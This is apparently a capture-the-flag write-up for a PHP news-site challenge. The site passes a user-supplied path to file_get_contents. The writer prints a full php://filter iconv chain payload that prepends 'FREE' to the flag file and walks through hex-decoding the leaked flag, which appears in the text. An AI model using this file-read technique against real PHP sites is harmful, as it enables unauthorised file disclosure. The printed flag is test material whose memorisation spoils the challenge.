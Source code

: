 ![image](https://user-images.githubusercontent.com/75846902/212584342-6b9749c9-3061-40b6-8365-c2b98b9e73a0.png)

Source:
```
<?php if (isset($_GET['source'])) highlight_file(__FILE__) && die() ?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta http-equiv="X-UA-Compatible" content="IE=edge">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <link rel="stylesheet" href="assets/style.css">
    <title>The idek Times</title>
</head>
<body>

<main>
    <nav>
        <h1>The idek Times</h1>
    </nav>

    <?php

        error_reporting(0);
        set_include_path('articles/');

        if (isset($_GET['p'])) {
            $article_content = file_get_contents($_GET['p'], 1);

            if (strpos($article_content, 'PREMIUM') === 0) {
                die('Thank you for your interest in The idek Times, but this article is only for premium users!'); // TODO: implement subscriptions
            }
            else if (strpos($article_content, 'FREE') === 0) {
                echo "<article>$article_content</article>";
                die();
            }
            else {
                die('nothing here');
            }
        }
           
    ?>
```

```
PREMIUM - idek{REDACTED}
```


![image](https://user-images.githubusercontent.com/75846902/212588644-5714ae2a-c634-44a5-83ac-e08ea025fea2.png)

Given that we can only read files that start with "FREE" we can use the php:// scheme to use filters that allow us to modify the flag file 
so we can prepend the "FREE" string. To do this I've used the following tool(notice the two spaces after FREE):

```
https://www.synacktiv.com/en/publications/php-filters-chain-what-is-it-and-how-to-use-it.html

->$ ./php_filter_chain_generator.py --chain 'FREE '
[+] The following gadget chain will generate the following code : FREE  (base64 value: RlJFRSA)
php://filter/convert.iconv.UTF8.CSISO2022KR|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.8859_3.UTF16|convert.iconv.863.SHIFT_JISX0213|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.INIS.UTF16|convert.iconv.CSIBM1133.IBM943|convert.iconv.GBK.SJIS|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.L5.UTF-32|convert.iconv.ISO88594.GB13000|convert.iconv.CP950.SHIFT_JISX0213|convert.iconv.UHC.JOHAB|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.863.UNICODE|convert.iconv.ISIRI3342.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.CP-AR.UTF16|convert.iconv.8859_4.BIG5HKSCS|convert.iconv.MSCP1361.UTF-32LE|convert.iconv.IBM932.UCS-2BE|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.iconv.PT.UTF32|convert.iconv.KOI8-U.IBM-932|convert.iconv.SJIS.EUCJP-WIN|convert.iconv.L10.UCS4|convert.base64-decode|convert.base64-encode|convert.iconv.UTF8.UTF7|convert.base64-decode/resource=php://temp

```
![image](https://user-images.githubusercontent.com/75846902/212595932-5fd4fa86-dd90-4ad7-b371-44ab14241266.png)

```
FREE�B�5$TԕT���FV��F�F��U�E�7V'65##�u�C��W%��7w5�W"����>==�@C������>==�@
```

decode.php
```
<?php
$flag_content = file_get_contents("flag.txt");
echo bin2hex($flag_content)."\n";
?>
```

```
01b2429435052454d49554d202d206964656b7b5468346e6b5f555f345f5375627363523162316e675f74305f6f75725f6e33777350485061706572217d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f
```

Then removed the first 0, so we have:
```
1b2429435052454d49554d202d206964656b7b5468346e6b5f555f345f5375627363523162316e675f74305f6f75725f6e33777350485061706572217d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f43e003d003d0f800f400f
```
![image](https://user-images.githubusercontent.com/75846902/212599505-60bc680b-fd00-4448-90f1-b7ee199abb15.png)
![image](https://user-images.githubusercontent.com/75846902/212599600-4cfd7a45-8953-4a52-a704-42e7b27f6c48.png)

```
$)CPREMIUM - idek{Th4nk_U_4_SubscR1b1ng_t0_our_n3wsPHPaper!}€@CàÐÐø�ô�ô>�=�=€@CàÐÐø�ô�
```
